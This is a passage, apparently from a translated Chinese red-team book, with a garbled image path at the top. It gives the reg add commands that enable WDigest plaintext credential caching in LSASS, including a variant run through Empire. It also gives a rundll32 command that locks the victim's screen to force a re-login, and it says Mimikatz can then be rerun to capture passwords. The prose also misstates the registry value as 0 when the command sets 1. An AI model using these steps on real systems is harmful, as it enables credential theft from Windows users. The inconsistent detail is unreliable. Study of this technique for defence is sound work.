 ![](img/4-15.png)

那么你能做什么呢？最简单的选项是设置注册表项以让系统将密码凭证保存到 LSASS 进程。在 HKLM 中，有一个 UseLogonCredential 设置，如果设置为0，系统将在内存中存储凭据（ http://bit.ly/2vhFBiZ ）：

- reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
- 在 Empire 中，我们可以通过 shell 命令运行：
  - shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

这个注册表修改的问题就是需要用户重新登录到系统。你可以让目标机器屏幕锁屏、重新启动或注销用户，以便你能够捕获然后再次发送凭证文本。最简单的方法是锁定他们的工作机器（这样他们就不会丢失他们的当前的工作...看看我有多好！）。要触发锁屏：

- rundll32.exe user32.dll，LockWorkStation

一旦我们锁定屏幕，并让它们重新登录，我们就可以重新运行 Mimikatz 来获得明文密码。
